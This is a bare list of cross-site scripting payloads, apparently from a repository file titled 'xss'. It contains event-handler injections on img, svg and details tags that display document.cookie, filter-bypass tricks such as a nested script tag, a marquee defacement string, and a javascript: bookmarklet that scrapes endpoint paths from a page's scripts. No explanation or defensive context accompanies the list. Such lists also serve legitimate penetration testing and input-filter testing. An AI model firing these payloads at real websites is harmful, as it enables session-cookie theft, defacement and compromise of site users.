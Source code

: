 # xss
"><Img Src=OnXSS OnError=alert(document.cookie)>

<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">
';alert(document.cookie);//
<script>alert(1);</script>
'><img%20src%3D%22https://i.ibb.co/3SKZjXR/D3rk.png%22>
<img src="onmouseover="alert('xxs')"" style="max-width: 100%;">
getPreprint.php?File=oxcal.html
<scr<script>ipt>alert(1)</script>
</title><marquee><font color=lime size=32>x01-dz</font></marquee>
"><script>alert(1);</script>
"><svg/onload=confirm('/Xss/')>
<svg/onload=confirm('/Xss/')>
javascript:(function(){var (scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const results=new Set;for(var i=0;i<scripts.length;i++){var t=scripts[i].src;""!=t&&fetch(t).then(function(t){return t.text()}).then(function(t){var e=t.matchAll(regex);for(let r of e)results.add(r[0])}).catch(function(t){console.log("An error occurred: ",t)})}var pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const match of matches)results.add(match[0]);function writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
" onmouseover%3dprompt(/x01-dz/) bad%3d"
<svg onload='alert(1)'
<svg onload="alert(1)"
<svg onload=alert(1)//
<svg onload=alert(1)+
<svg onload=alert(1)<!--
